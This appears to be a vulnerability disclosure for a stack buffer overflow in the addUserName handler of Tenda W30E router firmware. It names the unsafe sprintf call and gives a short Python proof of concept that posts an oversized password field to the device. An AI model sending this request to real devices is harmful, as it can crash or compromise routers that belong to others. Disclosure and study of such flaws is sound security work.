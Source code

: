 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability in the `formaddUserName` function. The `v23` variable receives the `password` parameter from a POST request and is used in statement `sprintf(v12, "#%s", v23);`, which caused the buffer overflow attack.

![image-20240409112450535](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409112450535.png)

![image-20240409112318002](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409112318002.png)

![image-20240409112347063](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240409112347063.png)

The user-provided `password` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/addUserName"
payload = b'a'*2000
data = {"password": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409110959426](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110959426.png)
